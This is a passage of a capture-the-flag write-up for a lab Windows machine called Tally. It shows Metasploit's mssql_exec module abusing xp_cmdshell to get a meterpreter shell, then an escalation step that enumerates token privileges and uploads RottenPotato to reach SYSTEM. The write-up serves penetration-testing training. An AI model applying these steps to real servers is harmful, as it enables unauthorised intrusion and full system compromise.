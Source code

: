 In the parameter *CMD* of the auxiliary, we must configure it to execute with powershell our obfuscated payload.  
The auxiliary used is *auxiliary/admin/mssql/mssql_exec*.  
The mssql_exec admin module takes advantage of the xp_cmdshell stored procedure to execute commands on the remote system.  
[Reference](https://www.offensive-security.com/metasploit-unleashed/admin-mssql-auxiliary-modules/)  

After the *exploit* command, we have our shell:

```bash
meterpreter > sysinfo
Computer        : TALLY
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_GB
Domain          : HTB.LOCAL
Logged On Users : 7
Meterpreter     : x64/windows
```

## Privilege Escalation

Here the interesting thing is is Sarah’s account is running as the SQL service account. So maybe we can elevate with this knowledge since service accounts usually have special privileges.

For this final part we will learn to use Incognito and RottenPotato.
Incognito was originally a stand-alone application that allowed you to impersonate user tokens when successfully compromising a system. [Reference](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/).  

The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. [Reference](https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation).  

Through the getprivs command we can verify all the privileges enabled to the current process.

```bash
meterpreter > getprivs
============================================================
Enabled Process Privileges
============================================================
  SeAssignPrimaryTokenPrivilege
  SeChangeNotifyPrivilege
  SeCreateGlobalPrivilege
  SeImpersonatePrivilege
  SeIncreaseQuotaPrivilege
  SeIncreaseWorkingSetPrivilege
```

We upload the [rottenpotato](https://github.com/breenmachine/RottenPotatoNG) to our compromised machine.

```bash
meterpreter > cd C:\\Users\\Sarah\\Desktop
meterpreter > upload rottenpotato.exe
[*] uploading  : rottenpotato.exe -> rottenpotato.exe
[*] uploaded   : rottenpotato.exe -> rottenpotato.exe
```
